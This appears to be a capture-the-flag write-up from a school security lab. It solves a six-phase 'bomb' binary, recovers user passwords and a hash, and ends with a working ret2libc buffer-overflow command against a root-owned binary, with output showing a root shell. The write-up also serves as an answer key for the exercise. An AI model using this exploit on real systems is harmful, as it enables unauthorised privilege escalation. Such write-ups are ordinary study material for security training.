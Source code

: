 when logged as laurie. A readme tells us to defuse the bomb (binary file).

using hopper:

phase1:
checks that our input is 'Public speaking is very easy.'

phase2:
calculates the factorials until 6! '1 2 6 24 120 720'

phase3:
simple switch cases, there are multiple answers. we take the first one with the hint '1 b 214'

phase4:
asks for the index of the 10th element of the fibonacci sequence but theirs start with [1, 1] so answer is '9'

phase5:
takes a string of len 6, for each char does c & 0xf with returns an int < 16
those 6 integers are used as indexes for a new string of length 6
the string that takes those integers as indexes is "isrveawhobpnutfg"
the newly constructed string is then compared to "giants" and if they are equal we get to the next phase
we did a quick script to see which letters could be used (phase5.py)
here are the results:
g: [o]
i: [p]
a: [e, u]
n: [k]
t: [m]
s: [a, q]
so the possibilites are:
opekma opekmq opukma opukmq
all work

phase6:
0x804b26c address is called
using gdb it tells us that it is 'node1', we can find the nodes up to node6 with nodeX_address = nodeX-1 - 0xC (12 in dec)
node1 = 253
node2 = 725
node3 = 301
node4 = 997
node5 = 212
node6 = 432
function verifies that our 6 inputs are below 6, so it checks for node index
at the end cheks that the order is decreasing -> '4 2 6 3 1 5'

after testing a few possibilites password for thor is Publicspeakingisveryeasy.126241207201b2149opekmq426135
3 and 1 are switched because subject is shit https://stackoverflow.com/c/42network/questions/664

https://www.calormen.com/jslogo/ for turtle
-> 'SLASH' that we must digest
-> md5 'slash : 646da671ca01bb5d84dbb5fb2238dc8e

in zaz, binary named exploit_me with 'root' as its owner
there's an strcpy call, let's try to overflow
we overflow with an offset of 140 to the saved eip

we can get system, exit and "/bin/sh" addresses to do a ret2libc attack
./exploit_me `python -c 'print("a"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])'`
id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
